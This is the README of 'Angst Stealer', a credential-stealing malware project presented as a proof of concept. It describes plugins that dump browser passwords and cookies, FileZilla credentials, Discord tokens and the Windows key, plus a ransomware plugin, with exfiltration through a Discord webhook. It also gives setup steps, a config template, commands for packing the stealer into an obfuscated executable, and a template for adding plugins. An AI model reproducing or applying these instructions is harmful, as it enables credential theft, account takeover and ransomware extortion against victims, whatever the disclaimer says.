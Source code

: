 ## Angst Stealer
AngstStealer is a POC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 6 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Ransomware | Encrypts all files on the victims computer, drops a note also. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/backslash/AngstStealer` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
}

```
webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
windows -> Give information about your victim & includes the windows key</br>
discord -> Steal discord tokens</br>
screenshot -> takes a screenshot</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### Demo
Example of how the dump folder might look.
<p align="center">
  <img width="560" height="300" src="https://i.imgur.com/56vt3pL.png">
</p>
<p align="center">
  <img width="560" height="300" src="https://i.imgur.com/jfURfLb.png">
</p>
<p align="center">
  <img width="560" height="300" src="https://i.imgur.com/JeYJ9tm.png">
</p>

### To Do List
- [x] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [x] Implement some anti-vm tricks.
- [ ] Add more plugins

### Adding Plugins
Adding custom plugins is incredibly easy, here is a short example of how you make and integrate your own custom plugin for Angst:

1. First off you will want to create your plugin preferably in your plugins folder. The plugin can have as many function as needed, the example I provided below has one function called retrieve_data which will retrieve our sensitive data. Our dump function is needed for proper plugin integration because this is how all the functions know to dump there data.
```python
import requests

class ExamplePlugin(object):
	def __init__(self):
		self.sensitive_data = ""

	def retrieve_data(self):
		view_website = requests.get("https://api.ipify.org")
		self.sensitve_data = view_website.text

	def dump(self):
		self.retrieve_data()
		return self.sensitive_data
	
```
2. Next we want to add our example function to our main file which is `angst.py` in our `angst.py` do 
```from plugins.exampleplugin import ExamplePlugin```
change your import name on whatever you named your file and whatever you called the plugin class. 
3. Lastly we want to add it to our `config["software"]` and the `self.plugins` as show below.
```
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
```
```
self.plugins = {
            "chrome": Chrome(),
            "chromecookies": Cookies(),
            "filezilla": Filezilla(),
            "discord": Discord(),
            "screenshot": Screenshot(),
            "windows": Windows()
        }
```
Make sure you use the exact same name when you put it under the config and self.plugins since it is case sensitive.


### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
